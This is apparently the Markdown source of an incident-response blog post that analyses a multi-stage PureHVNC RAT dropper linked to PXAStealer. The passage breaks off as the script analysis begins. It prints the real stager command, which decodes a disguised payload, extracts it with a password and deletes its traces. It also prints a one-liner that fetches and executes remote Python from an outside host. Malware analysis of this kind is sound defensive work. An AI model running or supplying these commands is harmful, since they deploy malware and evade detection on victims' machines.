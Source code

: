 ```yaml
---
title: Seven - Malware Analysis - Multi-Stage PureHVNC RAT - Part of PXAStealer
date: 2025-08-06 01:00:00 +0530
categories: [Days of Security, Reverse Engineering, Incident Response, Malware Analysis]
tags: [Malware Analysis]
---
```

## Intro
This piece of malware was spotted in one of the incident for which I led the response. It was executed, undetected by Defender for Endpoint and garned a full fledged IR investigation. I will not mention the whole IR process as this focuses more on the analysis of the dropper which was a multi-stage heavily obfucated python script & C# binary.  
To give more context to it. It was a PXAStealer attack as seen on [SentinelOne](https://www.sentinelone.com/labs/ghost-in-the-zip-new-pxa-stealer-and-its-telegram-powered-ecosystem/). SentinelOne focused more on the PXAStealer(DLL) aspect, whereas this one is a later step in the infection chain leading to persistence. All the IoCs will be mentioned in the appendix.  

### How we got here?
The user received a phishing link on their personal email address and opened it on their corporate device and it started the infection. It originated through a  .lnk file which is consistent with previous PureHVNC and PXAStealer infections. The .lnk file included a obfuscated script which initiated the download of a master zip archive.  
That was followed by the creation more zip archives with .pdf extension which originated from master zip file and were extracted. Python launcher, malicious dll(PXAStealer) and all dependencies were extracted from the zip archives in the "C:\Users\Public\Windows\" directory and once the DLL was sideloaded into MS Word binary, it executed the below mentioned command and which in turn exectued python script in memory. I can't share the screenshots or more information as it might contain senstive information. From the very beginning, the attack happened mainly through memory only. Here's the initial stager command from the sideloaded DLL. 
```
cmd /c cd "" && start "Google Ads Playbook.docx" && certutil -decode Document.pdf Invoice.pdf && images.png x -ibck -y -poX3ff7b6Bfi76keXy3xmSWnX0uqsFYur Invoice.pdf C:\\Users\\Public && del /s /q Document.pdf && del /s /q Invoice.pdf && del /s /q images.png && del /s /q "Contract Invoice.docx" && del /s /q "Evidence Report.docx" && cd C:\\Users\\Public\\Windows && start svchost.exe Lib\\images.png MR_Q_NEW_VER_BOT && exit && exit
```
Sadly I can't share the info on the very initial payload which initated the download due to undisclosable reason hence, the lack of information in this step. But the silver lining is that we have the actual malicious payload and we know the methodology followed by the stager. Let's begin with the actual payload. All the IOCs will be mentioned in the appendix.

### Initial script
The initial payload is a python script which is executed in memory with the following command  
```
svchost.exe -c "import.requests;exec(requests.get('hXXp://0x0[.]st/8nyT.py').txt)"
```  
That syntax oddly looks like python execution. Upon checking the hash of this extracted svchost, it was confirmed to be a normal python executable only.

Here's a small snippet of the script, it has strange function definitions and one huge chunk of encrypted text.  